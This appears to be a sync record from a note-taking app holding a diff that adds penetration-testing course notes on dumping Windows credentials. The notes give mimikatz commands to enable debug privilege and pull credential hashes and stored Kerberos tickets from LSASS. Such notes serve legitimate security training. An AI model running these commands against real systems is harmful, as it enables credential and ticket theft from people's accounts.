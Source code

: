 id: c53ae02290f64b039e1025c43f6e2a9c
parent_id: cafe8c37a1c04d20ae54e0426b85bb76
item_type: 1
item_id: f460052c6a4b4bd4bf4e2f845c5e0215
item_updated_time: 1643559295617
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" \\\"exit\\\"'\"],[1,\"\\\n\\\nFor the PWK section, we need to get the hashes dump of user credentials\\\n\\\n> mimikatz.exe\\\n> \\\n> privilege::debug\\\n> \\\n> sekurlsa::logonpasswords\\\n\\\n![dd5c04511f086bbfc7a55d97e9c768fa.png](:/36279bdefea541bcb50f00522fb77916)\\\n\\\n## Tickets \\\n\\\nWe can also retrieve stored TGT in LSASS using mimikatz for Kerberos Auth\\\n\\\n> sekurlsa::tickets\\\n\\\n![910d606642ed6913a3492f2fe2c4437d.png](:/beffd09900234cd595551dd327c04c8e)\\\n\\\nTGS is specific to a particular resource. TGT can be used to request for a specific TGS that targets the resources we want\"]],\"start1\":1382,\"start2\":1382,\"length1\":8,\"length2\":536}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T16:20:58.713Z
created_time: 2022-01-30T16:20:58.713Z
type_: 13